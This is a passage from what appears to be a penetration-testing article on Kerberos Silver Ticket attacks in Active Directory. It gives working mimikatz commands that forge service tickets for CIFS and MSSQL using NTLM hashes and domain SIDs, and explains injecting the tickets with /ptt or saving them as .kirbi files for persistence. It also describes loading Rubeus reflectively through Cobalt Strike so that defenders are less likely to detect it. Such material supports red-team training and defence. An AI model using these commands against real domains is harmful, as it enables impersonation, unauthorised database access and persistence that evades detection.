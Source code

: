```
mimikatz “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```





**Service Account Hash Example**

As I mentioned above let's say we have the `NTLM` hash of a Service Account (MSSQL) we can create a Silver Ticket for said User and then start issue SQL Commands to a Database providing the Database accepts Kerberos authentication (Most likely will)



```powershell
mimikatz.exe
prvilege::debug

kerberos::golden /id:1106 /domain:m0chanAD.local /sid:S-1-5-21-1473643419-774954089-2222323452 /target:sqlserver.m0chanAD.local /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:MSSQLSvc /user:m0chanFake /ptt
```



**PTT**

As you can see in the above examples I have applied the `/ptt` flag which will automatically inject the ticket into my current session but we can choose to output it to a file with the `/ticket` flag which will output a `ticket.kirbi` file by default unless directly specified.



We can then use this `kirbi` ticket for a certain level of persistence and/or inject them with Rubeus which Iw ill display below.



#### [](#header-4)Injecting Ticket with Rubeus



> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it's reflectively loaded using something like Cobalt's `execute-assembly` or `SILENTTRINITY` You can also reflectively load it from PowerShell but I will be covering `.NET` in greater detail in a future article. 
>
> https://github.com/GhostPack/Rubeus



As we have discussed Rubeus loads in this article already under `Kerberoasting` and `AS REP` I will jump straight to the chase. 



We can use Rubeus to inject Silver Tickets into our session by 2 methods, `.kirbi` file or a Base64 of said `.kirbi` file which I find very useful.


